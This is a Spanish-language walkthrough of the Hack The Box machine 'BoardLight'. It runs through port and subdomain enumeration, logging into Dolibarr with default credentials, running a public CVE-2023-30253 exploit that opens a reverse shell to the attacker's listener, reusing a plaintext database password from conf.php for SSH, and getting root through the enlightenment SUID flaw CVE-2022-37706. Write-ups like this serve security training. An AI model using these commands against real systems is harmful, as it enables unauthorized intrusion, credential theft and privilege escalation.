

# BoardLight

`BoardLight` es una máquina Linux de dificultad fácil que cuenta con una instancia `Dolibarr` vulnerable a [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253). Esta vulnerabilidad se aprovecha para obtener acceso como `www-data`. Después de enumerar y volcar el contenido del archivo de configuración web, las credenciales de texto sin formato conducen al acceso `SSH` a la máquina. Al enumerar el sistema, se identifica un binario `SUID` relacionado con `enlightenment` que es vulnerable a la escalada de privilegios a través de [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706) y se puede abusar de él para aprovechar un shell raíz.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **BoardLigth**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.11 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-06 00:37 CET
Initiating SYN Stealth Scan at 00:37
Scanning 10.10.11.11 [65535 ports]
Discovered open port 80/tcp on 10.10.11.11
Discovered open port 22/tcp on 10.10.11.11
SYN Stealth Scan Timing: About 49.33% done; ETC: 00:38 (0:00:32 remaining)
Completed SYN Stealth Scan at 00:38, 54.34s elapsed (65535 total ports)
Nmap scan report for 10.10.11.11
Host is up, received user-set (0.038s latency).
Scanned at 2025-02-06 00:37:37 CET for 54s
Not shown: 52267 closed tcp ports (reset), 13266 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 54.44 seconds
           Raw packets sent: 90021 (3.961MB) | Rcvd: 89628 (3.590MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.11
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentra expuesta una página web de **Apache** y el servicio SSH.

```bash
❯ nmap -sCV -p22,80 10.10.11.11 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-06 00:39 CET
Nmap scan report for board.htb (10.10.11.11)
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   89.11 ms 10.10.16.1
2   30.64 ms board.htb (10.10.11.11)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.20 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...// Some code
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos en nuestro archivo `/etc/hosts` la siguiente entrada.

```bash
❯ cat /etc/hosts | grep 10.10.11.11
10.10.11.11 board.htb
```

## Web Enumeration

Realizaremos una enumeración básica de las tecnologías que utiliza el sitio web a través de la herramienta de `whatweb`.

```bash
❯ whatweb http://board.htb
http://board.htb [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@board.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.11], JQuery[3.4.1], Script[text/javascript], X-UA-Compatible[IE=edge]
```

Al acceder a [http://board.htb](http://board.htb), verificamos que se trata de una página en la cual a simple vista no logramos ver más páginas ni ningún tipo de información relevante.

<figure><figcaption></figcaption></figure>

Realizaremos una enumeración de directorios y páginas, no logramos visualizar algún contenido que nos pueda servir de utilidad.

```bash
❯ dirsearch -u 'http://board.htb' -i 200 -t 50 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/BoardLight/BoardLight/reports/http_board.htb/_25-02-06_00-48-52.txt

Target: http://board.htb/

[00:48:52] Starting: 
[00:49:01] 200 -    2KB - /about.php
[00:49:23] 200 -    2KB - /contact.php

Task Completed
```

### Subdomain Enumeration

Tratando de realizar una enumeración de subdominios de la página web, nos encontramos con el subdominio `crm`.

```bash
❯ wfuzz --hh=15949 -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.board.htb" http://board.htb 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://board.htb/
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                             
=====================================================================

000002042:   200        149 L    504 W      6360 Ch     "crm" 
```

Añadiremos esta nueva entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep 10.10.11.11
10.10.11.11 board.htb crm.board.htb
```

Al tratar de acceder a[ http://crm.board.htb](http://crm.board.htb) nos encontramos con un panel de inicio de sesión de **Dolibarr 17.0.0**.


Dolibarr es un software Open Source con funcionalidades avanzadas, que abarca tanto áreas de los ERP como de los CRM. También es otra de las aplicaciones que se puede instalar fácilmente a través del Catálogo de Aplicaciones Cloud, proporcionándonos el entorno flexible que requieren estos aplicativos críticos


<figure><figcaption></figcaption></figure>

## Initial Foothold

### Accessing Dolibarr with default admin credentials

Revisamos por Internet las credenciales que utiliza **Dolibarr** por defecto, nos encontramos que utiliza las credenciales `admin/admin`.



Al tratar de acceder, verificamos que hemos logrado acceder como usuario `admin`.

<figure><figcaption></figcaption></figure>

### Dolibarr 17.0.0 Exploitation - Remote Code Execution \[RCE] (CVE-2023-30253)

Revisando por Internet sobre posibles vulnerabilidades de esta versión de **Dolibarr**, nos encontramos con el siguiente `CVE-2023-30253`.




En la versiones anteriores a Dolibarr v17.0.1 se permite la ejecución remota de código por un usuario autenticado a través de una manipulación de mayúsculas, por ejemplo: "


Por otro lado, también nos encontramos con el siguiente repositorio de GitHub con el exploit para abusar de la vulnerabilidad. Nos descargaremos este repositorio en nuestro equipo.



```bash
❯ git clone https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253; cd Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
Clonando en 'Exploit-for-Dolibarr-17.0.0-CVE-2023-30253'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 18 (delta 3), reused 0 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (18/18), 9.17 KiB | 9.17 MiB/s, listo.
Resolviendo deltas: 100% (3/3), listo.
```

En el propio repositorio de GitHub, se nos muestra un PoC de cómo aprovecharnos de este exploit.

<figure><figcaption></figcaption></figure>

En una terminal, nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el `exploit.py` indicándole la URL donde se encuentra **Dolibarr**, las credenciales de acceso que en este caso eran las de por defecto y, nuestra dirección IP y puerto donde nos encontramos en escucha.

```bash
❯ python3 exploit.py http://crm.board.htb admin admin 10.10.16.2 443
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

Verificamos que ganamos acceso al equipo con el usuario `www-data`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.11] 34712
bash: cannot set terminal process group (850): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$
```

## Initial Access

### Information Leakage

Nos encontramos actualmente con un usuario con privilegios limitados, la idea sería convertirnos en `root` o lograr pivotar a otro usuario que quizás tenga más permisos. Revisando el `/etc/passwd` verificamos que solamente los usuarios `root` y `larissa` disponen de `bash`.

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```

Revisando los directorios en los que nos encontrábamos, logramos visualizar archivos de configuración.

En el archivo `conf.php` logramos visualizar las credenciales de acceso al MySQL.

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ ls -l
total 44
-rw-r--r-- 1 www-data www-data  1736 May 17  2024 conf.php
-rw-r--r-- 1 www-data www-data 16394 Mar  4  2023 conf.php.example
-r-------- 1 www-data www-data 16394 May 13  2024 conf.php.old
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

Probamos de autenticarnos con estas credenciales y el usuario`larissa` para validar si se reutilizan, y lograos acceder y comprobar la flag de **user.txt**.

```bash
❯ ssh larissa@board.htb
The authenticity of host 'board.htb (10.10.11.11)' can't be established.
ED25519 key fingerprint is SHA256:xngtcDPqg6MrK72I6lSp/cKgP2kwzG6rx2rlahvu/v0.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:30: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'board.htb' (ED25519) to the list of known hosts.
larissa@board.htb's password: 

larissa@boardlight:~$ cat user.txt 
db09716122**********************
```

## Privilege Escalation

### Enlightenment SUID Binary Exploitation

Revisando permisos de `SUID` nos encontramos que el binario de `enlightment` disponía de `SUID`.


Enlightenment es un gestor de ventanas altamente gráfico. Los autores de Enlightenment han proporcionado un gestor de ventanas altamente configurable que permite a los usuarios configurar todos los aspectos de un aspecto de ventanas.


```
larissa@boardlight:~$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Revisando posibles vulnerabilidades de utilizar ese **SUID** para escalar privilegios, nos encontramos con el siguiente repositorio de GitHub.

Ejecutamos el `exploit.sh`, verificamos que nos encontramos como usuario `root` y logramos visualizar la flag de **root.txt**.



```bash
larissa@boardlight:/tmp$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
./exploit.sh: line 20: /tmp/exploit: Permission denied
chmod: changing permissions of '/tmp/exploit': Operation not permitted
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
# cat /root/root.txt
9ead301127**********************
```
